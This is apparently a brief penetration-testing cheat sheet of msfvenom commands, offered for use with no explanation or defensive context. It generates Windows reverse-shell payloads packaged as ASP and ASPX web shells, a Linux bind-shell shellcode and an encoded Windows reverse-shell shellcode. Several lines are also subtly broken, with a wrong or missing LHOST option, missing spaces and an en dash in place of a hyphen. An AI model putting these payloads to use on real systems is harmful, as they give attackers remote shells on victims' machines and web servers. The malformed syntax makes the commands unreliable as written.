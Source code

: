 msfvenom
========

.. code-block:: shell

	msfvenom -p windows/shell_reverse_tcp  HOST=[your_ip_address] LPORT=[Port] -f asp > shell.asp

.. code-block:: shell

	msfvenom -p windows/meterpreter/reverse_tcp [your_ip_address] LPORT=[Port] -f aspx > shell.aspx

.. code-block:: shell

	msfvenom -p linux/x86/shell\_bind\_tcp LPORT=[port]-f c -b "\\x00\\x0a\\x0d\\x20" –e x86/shikata\_ga\_nai

.. code-block:: shell

	msfvenom -p windows/shell\_reverse\_tcp LHOST=<IP Address> LPORT=[port]-b "\\x00\\x0a\\x0d" -f c -a x86 --platform windows -e x86/shikata\_ga\_nai